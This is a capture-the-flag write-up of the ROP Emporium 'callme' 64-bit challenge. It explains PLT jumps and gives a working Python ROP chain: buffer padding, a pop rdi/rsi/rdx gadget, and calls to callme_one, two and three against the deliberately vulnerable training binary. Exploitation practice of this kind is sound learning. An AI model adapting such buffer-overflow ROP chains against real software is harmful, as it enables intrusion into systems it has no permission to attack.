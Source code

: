 # callme-64 bit

and so we begin the third challange of ROP Emporium.   
we are presented with an important message.  
![start](https://user-images.githubusercontent.com/60041914/78276174-58a50d00-751b-11ea-8c5d-b72c9eeff5f9.png)

and so we read them.(https://ropemporium.com/challenge/callme.html)  
"You must call callme_one(), callme_two() and callme_three() in that order, each with the arguments 1,2,3 e.g."    
    
ok. calling the functions will not suffice this time.  
the return address will be pushed on to the stack and our ROP chain will be ruined.  
    
what we can do instead is jump to the PLT.
(if you are not already farmiliar with the PLT you should read Appendix A in https://ropemporium.com/guide.html)  
![calls](https://user-images.githubusercontent.com/60041914/78276181-59d63a00-751b-11ea-8a8b-93292e80e4ee.png)
  
 we need to find gadgets that allow us to control rdi,rsi and rdx to change the parameters.   
    
 running ROPgadget we get:   
 ```assembly_x86
 0x0000000000401ab0 : pop rdi; pop rsi; pop rdx; ret
 ```
 we can write a ROP chain based on that.   
 ```python
 SET_PARAMS=0x00401ab0

CALLME_ONE=0x00401850
CALLME_TWO=0x00401870
CALLME_THREE=0x00401810

exploit=b'A'*40
exploit+=p64(SET_PARAMS)
exploit+=p64(0x1) # rdi
exploit+=p64(0x2) # rsi
exploit+=p64(0x3) # rdx
exploit+=p64(CALLME_ONE)
exploit+=p64(SET_PARAMS)
exploit+=p64(0x1) # rdi
exploit+=p64(0x2) # rsi
exploit+=p64(0x3) # rdx
exploit+=p64(CALLME_TWO)
exploit+=p64(SET_PARAMS)
exploit+=p64(0x1) # rdi
exploit+=p64(0x2) # rsi
exploit+=p64(0x3) # rdx
exploit+=p64(CALLME_THREE)
 ```
   
   
![pwned](https://user-images.githubusercontent.com/60041914/78276186-5b076700-751b-11ea-9daf-527c00681303.png)
